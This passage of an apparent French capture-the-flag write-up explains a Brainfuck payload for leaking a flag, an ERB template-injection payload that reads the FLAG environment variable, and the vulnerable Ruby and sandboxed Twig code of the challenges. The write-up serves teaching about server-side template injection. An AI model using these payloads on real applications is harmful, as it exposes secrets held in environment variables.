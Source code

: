 Donc avant toute explication voici la payload :
```brainfuck
[.>],[.,]
```

Je vais d'abord expliquer les caractères :
- `.` : le point sert à afficher ce qui est à l'adresse actuelle (1 octet à la fois)
- `>` : le chevron sert à se déplacer d'adresse en adresse, dans notre cas à aller à l'adresse suivante
- `,` : la virgule lit la valeur de stdin et la stocke à l'adresse actuelle (1 octet à la fois)
- `[]` : les crochets permettent de faire une boucle jusqu'à ce que la valeur à notre adresse en sortie de boucle soit nulle ( `0` )

On commence donc par une première boucle `[.>]` qui va lire tous les caractères à partir de l'adresse actuelle (l'adresse 0), jusqu'à ce qu'une valeure nulle soit présente. Avec ça nous avons la première partie du flag.
Ensuite nous avons une première virgule `,` pour mettre le 1ère octet de stdin à notre adresse actuelle. Puis il faut l'afficher et récupérer la valeur suivante jusqu'à ce qu'on ai tout lu (donc jusqu'à une valeur nulle) : `[.>]`

Tout ça pour dire que le langage peut faire peur mais que l'exercice en lui même était plutôt simple.


### ERB SSTI

On a une seconde SSTI, ici en Ruby avec ERB.
Comme la précédente, il nous faut lire la variable d'environnement `FLAG` et on nous donne le code

```ruby
require 'erb'

PAYLOAD = ENV['PAYLOAD'] || 'Payload'

# Render and output
output = ERB.new(PAYLOAD).result(binding)
puts output
```

ERB intègre directement un moyen de lire les variables d'environnement, on va faire simple
```
<%= ENV['FLAG'] %>
```

### Twig SSTI

Encore une SSTI (et c'est pas fini !), cette fois basée en PHP avec Twig, et encore une fois il faut lire la variable d'environnement.

Voici le code :
```php
<?php
require __DIR__ . '/vendor/autoload.php';

use TwigLoaderArrayLoader;
use TwigEnvironment;

$PAYLOAD = getenv('PAYLOAD') ?: 'Payload';

$loader = new ArrayLoader(['index' => $PAYLOAD]);
$twig   = new Environment($loader, [
  'sandbox' => true,
]);

echo $twig->render('index', []);
```
